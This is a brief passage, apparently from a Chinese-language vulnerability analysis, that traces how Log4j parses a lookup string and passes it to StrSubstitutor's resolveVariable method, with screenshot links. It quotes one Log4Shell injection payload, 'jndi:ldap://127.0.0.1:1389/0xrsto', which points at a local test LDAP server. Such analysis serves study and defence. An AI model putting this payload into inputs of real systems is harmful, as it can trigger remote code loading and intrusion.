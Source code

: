 [![](assets/1700545019-a4f67b3e677ec4f64e87ddbea9af2615.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120132119-a322e898-8764-1.png)  
这里是寻找后缀，即“}”，然后提取出中间的字符串“jndi:ldap://127.0.0.1:1389/0xrsto”，进入else中，进入这里  
[![](assets/1700545019-8f1a5112e1715f48cac1bc63bdf10677.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231120132141-afe43c3a-8764-1.png)  
进入StrSubstitutor类resolveVariable方法
